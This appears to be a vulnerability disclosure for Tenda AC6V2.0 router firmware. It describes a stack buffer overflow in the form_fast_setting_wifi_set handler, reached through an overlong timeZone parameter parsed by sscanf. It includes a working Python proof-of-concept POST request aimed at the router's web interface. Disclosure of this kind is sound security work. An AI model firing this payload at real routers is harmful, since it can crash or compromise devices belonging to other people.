 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "form_fast_setting_wifi_set"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `form_fast_setting_wifi_set` function, users can craft a POST request to freely pass the **`timeZone` parameter** to the backend. This parameter is then processed by `sscanf`, which directly writes it into the **stack-allocated variable `timespand[2][4]`**. Given the small size of `timespand` (only 4 bytes per sub-array), this readily leads to a **stack overflow**.

![image-20250618171025773](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618171025773.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'ssid':'1',
            'timeZone':payload,
            }
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x200+b':'+b'a'*0x200+b'\n'
url="http://192.168.1.1/goform/fast_setting_wifi_set"
send_payload(url, payload)   
```

![image-20250618170927278](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618170927278.png)